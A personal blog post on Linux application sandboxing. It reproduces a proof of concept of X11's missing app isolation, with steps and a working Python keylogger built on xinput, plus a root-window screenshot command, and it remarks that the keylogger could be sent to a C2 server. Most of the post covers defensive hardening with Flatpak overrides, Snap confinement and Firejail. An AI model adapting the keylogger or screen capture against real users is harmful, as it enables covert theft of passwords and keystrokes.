# Application Sandboxing

I was recently thinking about finding mitigations to the lack of application isolation on X11. Applications run by the same user have the capability to "log all keystrokes, tamper with other apps windows, steal the contents of copy/paste buffers, inject keystrokes into other windows, etc"\[2]. This led me to look into application sandboxing solutions for Linux. This blog post is my journey testing out sandboxing solutions.

**Author's note**: This blog post got large really fast. I had to cut down talking about other sandboxing solutions, as I was at 6500+ words discussing only the topic of sandboxing. Due to this, I plan to make MACs (originally planned for this blog post) into another blog post.

## Testing Environment

In order to test out the solutions, I will be using a virtual machine (VM). I try to spin up a test environment for every project I run, just so I don't make any permanent changes to my system that I cannot undo. There is unfortunately no "undo" button for major changes on an OS. It is similar to how enterprises have test and production environments. With that being said, I have recently switched over to using KVM+QEMU instead of VirtualBox. I made this decision after reading the following page on the Whonix site: [https://www.whonix.org/wiki/KVM#Why\_Use\_KVM\_Over\_VirtualBox?](https://www.whonix.org/wiki/KVM#Why\_Use\_KVM\_Over\_VirtualBox?) which resonated with me. In order to install KVM+QEMU on Ubuntu-based Linux you run:

`sudo apt install qemu-kvm libvirt-clients libvirt-daemon-system bridge-utils virtinst libvirt-daemon virt-manager -y`

This will install the apps and its dependencies. I have a cheatsheet [here](https://github.com/harisqazi1/cheatsheets/blob/master/kvm) if you want more commands for running machines, etc. I used [Pop!\_OS](https://pop.system76.com/) for this post, and after moving the ISO to `/var/lib/libvirt/images/`, I ran the following command to install it:

```bash
virt-install --virt-type=kvm --name PopOS --vcpus=2 --memory=4096 --os-variant=popos20.04 --cdrom=/var/lib/libvirt/images/pop-os_22.04_amd64_intel_43.iso  --network=default --disk size=40
```

This command flags or options are self-explanatory, so I didn't choose to spell them out here. After updating and upgrading the OS, I do run `sudo apt install openssh*` and `sudo ufw allow ssh` on the machine so I can SSH from my own system without having to access the GUI. The initial command (aforementioned in the code box above) should also pop open a screen into the VM as well, allowing you to see and interact with the VM. Here are the usual commands I use to interact with the machine:

* List all VMs: `virsh list --all`
* Start PopOS (or VM name): `virsh start PopOS`
* GUI view into a running VM: `virt-viewer --connect qemu:///system PopOS`
* Find IP Address of VM (for SSH): `virsh domifaddr --domain PopOS`

For shutting down the VM, I have not had success using `virsh shutdown PopOS`, so I run either `/sbin/shutdown` (user has permission for this) or `sudo shutdown now`.

You could also use the GUI application "Virtual Machine Manager" (`virt-manager`) to manage your VMs:

<figure><figcaption></figcaption></figure>

## X11

### The X11 GUI "Vulnerability"

On Linux, there are two popular display server (a.k.a windowing system) protocols: X11 and Wayland \[6]. Wayland is the more modern display protocol that attempts to deal with GUI Isolation, although I could not locate specific Wayland documentation (from Wayland) that alludes to this being a featured feature. Unfortunately, the open source display server for the X11 windowing system: X.Org Server, does not provide application isolation \[3,4,5,6]. This allows malicious apps ran on the X.Org Server to do the following: keylog, screenshot programs, record the screen, mess with other applications, etc. \[3,4,5].

> Just a small aside for some synonyms for information going forward. X11: X and X Window System X.Org Server: X Server

This is due to how the server is configured. See the following image:

<figure><figcaption></figcaption></figure>

Since multiple applications (X.org clients) are able to connect to the same X.Org server - and there is no isolation on the server, this allows the application to have the capabilities to spy on each other, and by extension, the user. According to an answer on StackExchange "\[T]here is isolation with X11 -- but it is between users (as controlled by the OS), not between applications executed on behalf of the same user"\[2]. Everything you do could be spied on: entering banking credentials, to the root password for your system, password manager credentials, cryptocurrency wallet information, etc. If you want to read more about this, I would highly recommend the following: [https://security.stackexchange.com/questions/179851/do-any-non-gnu-linux-display-managers-provide-the-same-isolation-as-wayland](https://security.stackexchange.com/questions/179851/do-any-non-gnu-linux-display-managers-provide-the-same-isolation-as-wayland)

> One thing to mention here is that apps that use the flatpak, Snap, etc. packages have their own sandboxing to some aspect. Thus, they might not be \*\*as \*\* harmful when accessing the X.Org Server compared to apt,dnf,pacman, etc. installed packages.

From a privacy and security standpoint, this is a big vulnerability to me. To mitigate this, I could just transition over to using [Wayland](https://wayland.freedesktop.org/). However, since Wayland is a newer technology, I wanted to give it time to be a bit more stable before officially switching to it. In addition, it is not default on NVIDIA-based Pop!\_OS ISOs. I did also get issues when trying to switch from X11 to Wayland on Pop!\_OS 22.04 LTS x86\_64. This led me to learn about two sandboxing solutions for Linux: firejail and bubblejail. I also wanted to dive deeper into a couple package managers that work with sandboxing to some aspect: Flatpak and Snap. However before diving deeper into these, I wanted to replicate a PoC for this vulnerability.

### X11 GUI "Vulnerability" Exploit

I wanted to test out the lack of application isolation on X11, so this section is repeating a proof of concept (PoC) I saw on a [Gentoo Wiki](https://wiki.gentoo.org/wiki/User:Sakaki/Sakaki's\_EFI\_Install\_Guide/Sandboxing\_the\_Firefox\_Browser\_with\_Firejail#Demonstrating\_the\_X11\_Vulnerability). In order to exploit this vulnerability, you need the following packages: `gedit`, `xinput`, `x11-apps`, `graphicsmagick-imagemagick-compat`,and `eog` (or any image viewer). On Debian-based systems, this can be downloaded with `sudo apt install gedit xinput x11-apps eog graphicsmagick-imagemagick-compat`.

The following steps I will list below:

1. As root (`sudo su -`) run `gedit /root/secret_passwords.txt`
2. Run `xinput --list` to see list of peripherals to your PC and note the **id** of your keyboard. This will **not** be a pointer device, but a keyboard device (NOTE: If you see multiple options for your keyboard, you might have to play around with it in step 3, to see which one is showing results. The output should say "key press XY" or "key release XY" when you press keys on your keyboard.)
3. Run `xinput test XY`, replacing XY with your id from the previous step
4. You should see output when you press a key on your keyboard

The values that xinput provides seem to have a shift of 8-9 compared to the output from `evtest` (which is accurate):

<figure><figcaption></figcaption></figure>

As such, I wrote the following code to take the input from xinput and convert that to the key pressed:

```python
#!/usr/bin/env python3
import subprocess
import re

shift = 9 #The number from the key code to reflect the scan code; scancode hex decimal + 9 = xinput_code
#Hex value for scan code
scancode_hex = ["0x1","0x2","0x3","0x4","0x5","0x6","0x7","0x8","0x9","0xa","0xb","0xc","0xd","0xe","0xf","0x10","0x11","0x12","0x13","0x14","0x15","0x16","0x17","0x18","0x19","0x1a","0x1b","0x1c","0x1d","0x1e","0x1f","0x20","0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a","0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34","0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e","0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48","0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52","0x53", "0x54", "0x56"]
#Keycode that aligns with the Hex value
US_keycap = ["Esc", "1 or !", "2 or @", "3 or #", "4 or $", "5 or %", "6 or ^", "7 or &", "8 or *", "9 or (", "0 or )", "- or _", "= or +", "Backspace", "Tab", "Q", "W", "E", "R", "T", "Y", "U", "I", "O", "P", "[ or {", "] or }", "Enter", "Left Control", "A", "S", "D", "F", "G", "H", "J", "K", "L", "; or :", "' or ", "` or ~", "Left Shift", "\\ or |", "Z", "X", "C", "V", "B", "N", "M", ", or <", ". or >", "/ or ?", "Right Shift", "Keypad-* or */Print Screen", "Left Alt", "Space Bar", "Caps Lock", "F1", "F2", "F3", "F4", "F5", "F6", "F7", "F8", "F9", "F10", "NumLock", "Scroll Lock", "Keypad-7/Home", "Keypad-8/Up", "Keypad-9/PgUp", "Keypad--", "Keypad-4/Left", "Keypad-5", "Keypad-6/Right", "Keypad-+", "Keypad-0/Ins", "Keypad-./Del", "Alt-SysRq", "Windows Key"]
# Hex will align with the decimal version of what sudo showkey --showcodes was outputting

#Whatever number xinput outputs when it says key press or release
xinput_code = [9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,94]

data = list(zip(scancode_hex, US_keycap, xinput_code))
#print(data) #if you wanted side by side

def hex_to_dec(hexadecimal):
    print(int(hexadecimal, 16))

def xinput_modification():
    #regex to get xinput number
    reg = re.compile("key release|press (.*)")
    #change 8 to keyboard number
    proc = subprocess.Popen(['xinput','test', '8'],stdout=subprocess.PIPE)
    while True:
        line = proc.stdout.readline()
        if not line:
            break
        bytes_to_hex = line.strip().decode("utf-8")
        for output in reg.findall(bytes_to_hex):
            clean_data = output.strip()
            if output == "" or output == " ":
                break
            if int(output) in xinput_code:
                print(US_keycap[int(output)-shift])

xinput_modification()
```

**NOTE**: The aforementioned code can modified as a remote keylogger running constantly in the background (using cron) and sending inputs to a remote webhook or C2 server, but that is out of scope of this blog.

Output of the code:&#x20;

<figure><figcaption></figcaption></figure>

While typing as the root user into a root-readable file, the xinput is able to pickup all of the keyboard presses, since both windows are using the same X.org server.

The user-level user is also able to screenshot the desktop as well, including apps being run by the root user as well. You can run the `xwd -display "${DISPLAY}" -root | convert xwd:- screen.png` command **as user** to test this out \[1]:

<figure><figcaption></figcaption></figure>

You might also be able to grab the string on the clipboard as well, per: [https://unix.stackexchange.com/questions/188977/operate-x-clipboard-from-command-line](https://unix.stackexchange.com/questions/188977/operate-x-clipboard-from-command-line). This would come in handy for grabbing passwords from a user who uses a password manager.

These are just a couple examples of what this vulnerability can lead to. Now, let's look into Flatpak and Snappy to see how they implement sandboxing.

## Flatpak

Flatpak is a package manager that allows for easy installation of apps on Linux. For example, installing Flatpak and a Flatpak application is as easy as the following:

```bash
sudo apt install flatpak #Install flatpak app
sudo apt install gnome-software-plugin-flatpak #Install plugin
flatpak remote-add --if-not-exists flathub https://dl.flathub.org/repo/flathub.flatpakrepo #Add repository
# Restart system here
flatpak install flathub org.mozilla.firefox #Install Firefox
```

That's all it takes. For updates, it's as simple as a `flatpak update -y` (`-y` = Automatically answer yes to all questions (or pick the most prioritized answer)). We will get to why the `-y` would not be considered a good practice soon. On the [Flatpak documentation](https://docs.flatpak.org/en/latest/introduction.html), they claim one of the reasons to use Flatpak is its sandboxing:

```
"Sandboxed applications: one of Flatpak’s main goals is to increase the security of desktop systems by isolating applications from one another. This is achieved using sandboxing and means that, by default, applications that are run with Flatpak have limited access to the host environment." 

Source: https://docs.flatpak.org/en/latest/introduction.html
```

Let's dive a bit deeper into what sandboxing looks like for Flatpak applications. Based on the documentation, they are using bubblewrap and cgroups, which sounds correct when compared to what I have read in [Mastering Linux Security](https://www.packtpub.com/en-us/product/mastering-linux-security-and-hardening-9781837630516) \[10]. Bubblewrap is a "tool for constructing sandbox environments" \[11]. "bubblewrap works by creating a new, completely empty, mount namespace where the root is on a tmpfs that is invisible from the host, and will be automatically cleaned up when the last process exits. You can then use commandline options to construct the root filesystem and process environment and command to run in the namespace" \[11]. This implementation of sandboxing is much better than firejail (we will touch on this later). cgroups on the other hand, allow processes to run in their own kernel space and memory space allowing for segmentation \[12]. This can also be used to limit resources a process can use \[12]. Both of these tools come together to create a good environment to sandbox applications. However, the implementation of Flatpak itself, is where the sandboxing starts to fall apart.

Reading [https://madaidans-insecurities.github.io/linux.html#flatpak](https://madaidans-insecurities.github.io/linux.html#flatpak) led me to have a different view on Flatpak. Personally, I never thought too much about the permissions on Flatpak applications, since I assumed it was in some sort of general Flatpak guidelines. It turns out that each application creator can set the permissions and those are the defaults you end up using. This can lead to an app owner choosing more than they need, such as a calculator asking for network access. Let's look at [https://flathub.org/apps/org.gnome.gitlab.somas.Apostrophe](https://flathub.org/apps/org.gnome.gitlab.somas.Apostrophe) for example:

<figure><figcaption></figcaption></figure>

There is no need for a local Markdown application to have access to the network. Just to be sure, I downloaded the app and checked if any aspect of it needed network access...it did not.

In addition, the Flatpak application has access to read all files on the system. This reminds me of an XKCD comic that works well as an example for this:

<figure><figcaption></figcaption></figure>

This is why application confinement is important to me. I want to make sure applications have the exact access they need for them to work; no more, no less. There are a couple of solutions to harden your Flatpaks: [flatpak-override](https://www.systutorials.com/docs/linux/man/1-flatpak-override/) and [flatseal](https://github.com/tchx84/Flatseal) \[19,20]. With `flatpak override`, this is done through the command line, while Flatseal is a GUI for this; Both reference the same permissions. See the following image of Flatseal:

<figure><figcaption></figcaption></figure>

The post at [https://privsec.dev/posts/linux/desktop-linux-hardening/#flatpak ](https://privsec.dev/posts/linux/desktop-linux-hardening/#flatpak)does have recommendations for what to run as a "privacy/security" baseline:

```bash
For system:
sudo flatpak override --system --nosocket=x11 --nosocket=fallback-x11 --nosocket=pulseaudio --nosocket=session-bus --nosocket=system-bus --unshare=network --unshare=ipc --nofilesystem=host:reset --nodevice=input --nodevice=shm --nodevice=all --no-talk-name=org.freedesktop.Flatpak --no-talk-name=org.freedesktop.systemd1 --no-talk-name=ca.desrt.dconf --no-talk-name=org.gnome.Shell.Extensions

For user:
flatpak override --user --nosocket=x11 --nosocket=fallback-x11 --nosocket=pulseaudio --nosocket=session-bus --nosocket=system-bus --unshare=network --unshare=ipc --nofilesystem=host:reset --nodevice=input --nodevice=shm --nodevice=all --no-talk-name=org.freedesktop.Flatpak --no-talk-name=org.freedesktop.systemd1 --no-talk-name=ca.desrt.dconf --no-talk-name=org.gnome.Shell.Extensions
```

After running this, you can choose to override the overrides by going on an app-by-app basis and changing what permissions need to be modified \[20]:

```bash
flatpak --user override com.github.tchx84.Flatseal --filesystem=/var/lib/flatpak/app:ro --filesystem=xdg-data/flatpak/app:ro --filesystem=xdg-data/flatpak/overrides:create
```

I did want to mention something here, something I dealt with, but didn't put two and two together until reading the following on [https://privsec.dev/posts/linux/desktop-linux-hardening/#flatpak](https://privsec.dev/posts/linux/desktop-linux-hardening/#flatpak): "If you or a Flatpak frontend (app store) simply executes `flatpak update -y`, Flatpaks will be automatically granted any new permissions declared upstream without notifying you" \[20]. I did notice this when I update with the `-y` argument, as well. I usually run the `sudo apt update && sudo apt upgrade -y && flatpak update -y` command to update everything in one run, but I plan to change this strategy going forward.

My recommendation for this would be to audit all Flatpak applications you have. Run the general overrides first. Then slowly give the permissions that the application needs to work. For file-related permissions, I would recommend having a specific directory assigned just for your interaction with Flatpak. This directory would be where you put files that you want Flatpak applications to be able to access. You can then update `--filesystem=host` to the location you created. I would also recommend using the ":ro" suffix to make sure the permission is for read-only (unless you need it to output files as well)\[21]. Some applications implement the [Portal API](https://docs.flatpak.org/en/latest/portal-api-reference.html), which allows a file manager to pass files to the Flatpak application (e.g. VLC) without specific filesystem access privileges. Despite this, many of them [still declare](https://github.com/flathub/org.videolan.VLC/blob/master/org.videolan.VLC.yaml) --filesystem=host"\[20].

You could possibly have a bash file that has your flatpak override commands for all your applications in it. Then you can run that in one command with `flatpak -y`, as such: `sudo apt update -y && sudo apt upgrade -y && flatpak update -y && bash script.sh`. This way the permissions will not be changed across updates automatically, and you are still able to update everything in one run. However, this might be a bit more complicated than just using Flatseal.

These were the main topics I wanted to mention regarding Flatpak applications. Now let's move to see how Snappy deals with sandboxing.

## Snappy

"Ubuntu’s Snappy system, which allows developers to create snap packages that are supposed to run on any system on which the Snappy system can be installed. Each snap application runs in its own isolated sandbox, which helps protect the system from malicious programs. Each snap package is a self-contained unit, which means you don’t have to worry about installing dependencies. You can even create snap packages for servers that contain multiple services. The snapd daemon constantly runs in the background, automatically updating both itself and any installed snap applications." \[12]. There are 3 main parts to the Snappy system for a desktop user: the snap application, the snap daemon, and the Snap Store \[12,22]. For the sake of this blog, we will only focus on the snap applications and the sandboxing and permissions related to it.

Snap applications use "a combination of AppArmor, seccomp, mount namespaces, cgroups and traditional UNIX permissions. To then allow a package access to common resources, the snap system provides ‘interfaces’ to which packages can be granted access as required or determined by the user" \[23]. SECCOMP, or seccomp, "allows a process to make a one-way transition into a "secure" state where it cannot make any system calls except exit(), sigreturn(), read() and write() to already-open file descriptors. Should it attempt any other system calls, the kernel will either just log the event or terminate the process with SIGKILL or SIGSYS. In this sense, it does not virtualize the system's resources but isolates the process from them entirely" \[27].

Ubuntu does have documentation that goes a bit deeper into these security technologies here: [https://ubuntu.com/core/docs/security-and-sandboxing](https://ubuntu.com/core/docs/security-and-sandboxing). There are two modes of snap confinement for applications: strict and classic \[7,24]:

**Strict** Used by the majority of snaps. Strictly confined snaps run in complete isolation, up to a minimal access level that’s deemed always safe. Consequently, strictly confined snaps can not access files, network, processes or any other system resource without requesting specific access via an interface (see below).

**Classic** Allows access to the system’s resources in much the same way traditional packages do. To safeguard against abuse, publishing a classic snap requires manual approval, and installation requires the --classic command line argument.

In order to see what confinement is turned on, you have to verify this on an app by app basis. For Postman, it would be: `snap info --verbose postman | grep "confinement\|devmode"` \[24]. The `devmode` is not needed, but it reflected what was in the Ubuntu documentation, so I kept it. The confinement on Ubuntu-based distributions is "strict", while for other distributions it would be "classic" by default \[7]. Of course, if you wanted a list of all of them at once, you could run a loop that runs through the list. It would look something along the following:

```bash
#!/usr/bin/env bash
for application in $(snap list --all | awk '{print $1}' | sed "s/Name//g" | sort -u); do
    echo "------------------------------------"
    echo "Confinement status for $application"
    snap info --verbose $application | grep "confinement\|devmode"
    echo "------------------------------------"
done
```

If you have classic confinement, you will have to modify a kernel permission to get your snap to strict confinement, that being: `systemd.unified_cgroup_hierarchy=0` \[7]. If you are not using an Ubuntu or one of its derivatives, I would just recommend not using Snappy at all, and instead try to find an alternate way to download the application. You will have better options to sandbox than classic confinement: such as Bubblejail or a MAC like AppArmor or SELinux.

If you do want to control the permissions your app has, you can do this via two methods: Snap Store ([https://snapcraft.io/snap-store](https://snapcraft.io/snap-store)) or the command line \[23]. The Snap Store has toggles for application permissions which make it easy to work with:

<figure><figcaption></figcaption></figure>

The command line would show you similar information as well. For that you would run `snap interfaces application_name` or `snap connections application_name`\[23,25]. If you wanted to manually append or remove permissions, you can do that with `snap connect snap_application:plug_interface` (ex. connecting VLC to the audio-record plug: `sudo snap connect vlc:audio-record`) \[26]. For the previous example, you would replace "connect" with "disconnect", so `sudo snap disconnect vlc:audio-record` \[26].

One thing to mention here, is that the source code for the Snappy application server is not open source \[12]. This can lead Ubuntu in the future to potentially add advertisements in Snap applications for Ubuntu Pro (as they already are in apt updates) or put third party ads (as they did in Ubuntu 12 (read more here: [https://www.eff.org/deeplinks/2012/10/privacy-ubuntu-1210-amazon-ads-and-data-leaks](https://www.eff.org/deeplinks/2012/10/privacy-ubuntu-1210-amazon-ads-and-data-leaks))).

With that being said, that pretty much covers what I wanted to discuss for Snappy. Holistically, the strict confinement is ideal for what I am looking for. However, the non-open-source nature of the distribution method, Snappy application server, make me a bit hesitant to hedge all my bets on Snappy. I plan to use Snappy when other options are not sufficient for me to use, and instead try to use the built-in package manager to download applications.

## Firejail

"Firejail uses namespaces, SECCOMP, and kernel capabilities to run untrusted applications in their own individual sandboxes. This can help prevent data leakage between applications, and it can help prevent malicious programs from damaging your system" \[12]. I did define seccomp before for Snap applications, but I will mention a concise summary just as a reminder: It limits the system calls (syscalls) a program can make to only the following: "exit(), sigreturn(), read() and write() to already-open file descriptors" \[27]. This prevents the program from getting access to more syscalls then it would need to work. While doing research into this, it seems that Firejail not only uses seccomp, but seccomp-bpf. "seccomp-bpf is an extension to seccomp that allows filtering of system calls using a configurable policy implemented using Berkeley Packet Filter rules" \[27,28]. "The Berkeley Packet Filter (BPF; also BSD Packet Filter, classic BPF or cBPF) is a network tap and packet filter which permits computer network packets to be captured and filtered at the operating system level. It provides a raw interface to data link layers, permitting raw link-layer packets to be sent and received, and allows a userspace process to supply a filter program that specifies which packets it wants to receive" \[29].

Now that the technical deep-end information has been covered, let's get into how to use it. Firejail can be downloaded using your system package manager (apt, yum, dnf, etc.), through the GitHub page ([https://github.com/netblue30/firejail](https://github.com/netblue30/firejail)), or through the SourceForge page ([https://sourceforge.net/projects/firejail/files/firejail/](https://sourceforge.net/projects/firejail/files/firejail/)). This would be a simple `sudo apt install firejail` on a Debian/Ubuntu-derived OS. Using Firejail is really easy, as it comes built in with pre-built profiles for popular applications (I currently see 1150, with `ls /etc/firejail/ | grep ".profile$" | wc -l`). Let's "firejail" our first application: the Firefox browser. The basic command is simple: `firejail firefox`. This will look in the /etc/firejail/ directory to see if there is a profile for this, then load that profile into Firejail.

<figure><figcaption></figcaption></figure>

```
unix  2      [ ACC ]     STREAM     LISTENING     14264    /tmp/.X11-unix/X1
